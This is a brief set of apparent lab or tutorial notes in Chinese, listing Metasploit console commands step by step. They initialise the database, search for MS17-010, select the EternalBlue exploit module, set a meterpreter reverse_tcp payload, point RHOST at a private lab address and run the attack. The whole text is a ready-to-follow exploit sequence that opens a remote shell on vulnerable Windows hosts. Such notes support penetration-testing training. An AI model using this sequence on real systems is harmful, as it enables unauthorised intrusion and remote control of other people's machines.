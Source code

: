 	>systemctl start postgresql.service 启动数据库服务
	>msfdb init 初始化数据库
	>msfconsole进入MSF框架
	>search  ms17-010 查找攻击模块
	>use exploit/windows/smb/ms17_010_eternalblue 使用模块 
	>set payload windows/x64/meterpreter/reverse_tcp 设置载荷
	>info 查看信息
	>show options查看需要设置的参数
	>set RHOST 192.168.125.138设置参数
	>exploit 执行攻击模块
	>back 回退